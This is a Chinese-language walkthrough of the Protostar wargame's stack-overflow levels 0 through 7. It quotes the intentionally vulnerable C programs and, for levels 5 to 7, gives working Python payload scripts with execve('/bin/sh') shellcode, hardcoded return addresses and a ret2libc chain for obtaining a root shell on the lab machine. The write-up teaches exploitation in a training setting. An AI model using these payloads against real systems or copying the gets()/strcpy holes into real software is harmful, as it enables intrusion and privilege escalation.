Wargame from [Exploit-Exercises](https://exploit-exercises.com/protostar/).

---

## Stack 0

源码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

所以只需覆盖`modified`变量即可：



---

## Stack 1

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

此处要修改变量`modified`的值为`0x61626364`，需要注意是是`little endian`的问题——在低地址处存储低位字节，因此`0x64`（也就是`d`）应该在`modified`的第一个字节处。



---

## Stack 2

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

同上一题，只不过是需要使用`export`命令设置环境变量。



---

## Stack 3

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

首先要知道`win()`函数的地址，使用`objdump`命令可以查看函数地址：



可以看到`win()`函数的地址为`0x08048490`，所以：



---

## Stack 4

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

此处需要将`main()`函数执行结束后的返回地址修改为`win()`函数的地址，即可劫持程序流程。唯一的问题是，需要搞清楚`buffer`的起始地址距离`ret addr`多少字节。



首先得到`win()`函数的地址为`0x080483f4`，然后查看`main()`函数的汇编代码，可以发现栈顶首先做了16字节对齐，缓冲区尾部与栈底并不相邻。使用gdb在地址`0x0804840b`处下断点，可以发现此时ESP为`0xbffff7c8`，也就是说中间的空隙为8字节。So：



---

## Stack 5

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

此题中可以利用`gets()`函数，利用shellcode来达成利用栈溢出漏洞获取shell的目的。

由于在gdb的调试状态下与程序实际运行时的栈地址会存在差别，因此我们可以利用`core dump`来获取核心转储文件进行调试，这就与实际运行情况下的环境相同。通过以下命令配置核心转储（suid文件默认不进行转储，所以还需要以root权限设置）：

```
user@protostar:~$ ulimit -c
0
user@protostar:~$ ulimit -c unlimited
user@protostar:~$ cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
user@protostar:~$ su
Password:
root@protostar:/home/user# echo 1 > /proc/sys/fs/suid_dumpable
```

最初的想法是：我们在`gets()`函数处直接输入shell code，然后让程序跳转到shell code处执行。获取地址、修改返回地址等流程不再赘述。

起初找了一个长度只有23字节的[shell code](http://shell-storm.org/shellcode/files/shellcode-827.php)，但是发现程序运行了`/bin/sh`后，直接退出了。问题应该是出在`stdin`上，利用管道`|`或者重定向符`<`进行输入后，我们无法再在终端直接进行输入，此处应该重新开启`stdin`，[参见Stackoverflow](https://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d)。所以重新找了个适用于`gets()`函数的[shell code](https://www.exploit-db.com/exploits/13357/)，此shell code长度55字节。

接下来修改shellcode后发现仍然有问题，发现此shell code长度比较长，在shellcode执行的过程中，`push`操作把原本的shell code中的指令给覆盖了。解决办法是可以将shell code移至函数返回地址的后面，然后返回地址自然要相应作出修改。

产生payload的脚本：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print 76 * 'a' + '\x60\xf8\xff\xbf' + shellcode
```

`0xbffff860`通过分析core dump文件得来，是栈中存储函数返回地址处后面的地址，其实也就是函数返回后的`esp`寄存器中的值。效果：



需要注意的是在执行程序时，使用`./stack5`与`/opt/protostar/bin/stack5`也会导致栈地址不同。

*update：*

参考了[一个博客文章](http://www.kroosec.com/2012/12/protostar-stack5.html)发现，其实并不是非得更换shellcode，仍然是利用23个字节的较短shellcode：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (76 - len(shellcode)) * 'a' + '\x20\xf8\xff\xbf'
```

采用了一个bash trick来解决`stdin`的问题：



---

## Stack 6

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

函数`__builtin_return_address(0)`用来获取当前函数的返回地址，其中参数`0`表示获取的是当前函数的返回地址，若是`1`则表示获取当前函数的调用函数的返回地址，`2`则是再往上一层，以此类推。

从反汇编代码中我们可以看出函数`__builtin_return_address(0)`的结果就是`[ebp + 4]`。

言归正传，我们看到代码中对`getpath()`函数的返回地址做了检测，如果最高位字节为`0xbf`（就是在栈地址的范围），则程序直接退出。这样我们覆盖`getpath()`函数的返回地址为栈上我们的shell code地址，也无法执行了。

题目提示有三种解法：

- finding the duplicate of the payload
- ret2libc
- return orientated programming (ROP)

第一种暂时没能理解具体含义是什么，后两种应该是比较通用性的技巧。

### ret to .text

先不管提示，自己首先想，不能控制`getpath()`函数的返回地址为栈上的地址，那就去修改`main()`函数的返回地址为我们的shell code的地址。

而`main()`函数的返回地址又位于哪个位置呢？要分析其实也可以分析出来，但其实并不需要知道！`ret`指令实际上就是`pop eip`，所以我们可以将`getpath()`函数的返回地址覆盖为`main()`函数的`ret`指令的地址，并将下一个dword覆盖为shell code的地址即可。

`main()`函数的`ret`指令的地址为`0x08048508`，确定`getpath()`函数返回地址距离输入缓冲区的偏移为80，利用core dump找到程序实际运行时输入的缓冲区地址`0xbffff7fc`。

payload脚本：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (80 - len(shellcode)) * '\x90' + '\x08\x85\x04\x08' + '\xfc\xf7\xff\xbf'
```

然后顺利拿到root shell：



要注意到这种方法其实只是做了一步间接跳转，实际上执行的仍然是栈上的代码。

另外采用与上题同样的trick，此处仍然可以使用23bytes的shell code。

### ret2libc

**ret2libc**的想法是既然无法执行用户输入的代码，那么我们可以考虑将程序的流程转到现有的代码上去，比如说标准C库中的`system()`函数，而32位的程序中，函数的参数是从栈上读取的，而栈又是我们可控的，所以在调用`system()`函数前将参数设置为`/bin/sh`即可。

那么如何确定`system()`函数的地址呢？首先要明白一个概念——**动态链接**。

静态链接是指在程序中所有用到的代码都被包括在了程序中，包括通用的标准库代码。这样导致的问题一是会导致程序的体积比较庞大，二是一些库中的代码是在不同的程序中都有调用的，静态链接就会重复加载这些代码，造成内存空间的浪费。

动态链接世为了让不同的程序能够复用内存中相同的代码，在程序执行时才会将所用到的库中的代码链接进程序，而在程序发布时不必包括动态链接库中的代码。一般而言动态链接的过程是在`main()`函数执行之前完成。

这也是我们能够调用`system()`函数的原因，程序本身是并没有调用到`system()`函数的，但是所使用的`gets()`等函数同属于glibc这一动态链接库，所以我们就可以在gdb中拿到`system()`的地址：



从上面可以看到，在程序执行之前是无法获取`system()`的地址的，在程序的初始化完成、动态链接之后就可以print出`system()`地址为`0xb7ecffb0`，`exit()`地址`0xb7ec60c0`（获取`exit()`地址主要是为了程序能够正常退出，不是必要）。

> 事实上，动态链接一般都采用**lazy binding**的技术，动态链接库中被程序调用到的函数直到第一次被调用才会解析出它的地址，这一过程是结合PLT与GOT两个表一同完成的。

接下来的问题是如何安排栈上的数据，使得`system()`能够使用我们的预期的参数被执行，结构安排如下：



返回地址当然覆盖为`system()`的地址，紧接着的dword对于`system()`来说是它的返回地址（当`getpath()`返回后，ESP就指向此处，在一个函数被`call`指令调用跳转后，栈顶就是它的返回地址），我们可以将它覆盖为`exit()`的地址；再之后是`system()`函数的参数，此处应该是`/bin/sh`字符串的地址，我们可以在`gets()`时输入此字符串，并将它的地址放于此处；由于`system()`只有一个参数，再之后就是`exit()`的参数了，它及之后的栈内容我们已经不关心了。

利用脚本如下：

``` python
#!/usr/bin/python
#coding=utf-8

pl = '/bin/sh'

print pl + '\x00' * (80 - len(pl)) + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xfc\xf7\xff\xbf'
```

其中`\xfc\xf7\xff\xbf`为栈顶地址，即为字符串`/bin/sh`的地址，作为`system()`的参数。

我们依然要利用`cat`来开启`stdin`：



### ROP

待学习。。。

---

## Stack 7

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

同上题一样，将`getpath()`的返回地址更改为`main()`函数的`ret`指令的地址，间接跳转到我们输入的shell code：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (80 - len(shellcode)) * '\x90' + '\x53\x85\x04\x08' + '\xfc\xf7\xff\xbf'
```

结果：



但是此题却无法使用之前较短的23bytes的shell code，尚不知原因。

另外也可以用ret2libc的方法来解决此题，只是中间要利用另外的`ret`指令多一步跳转，转至`system()`函数。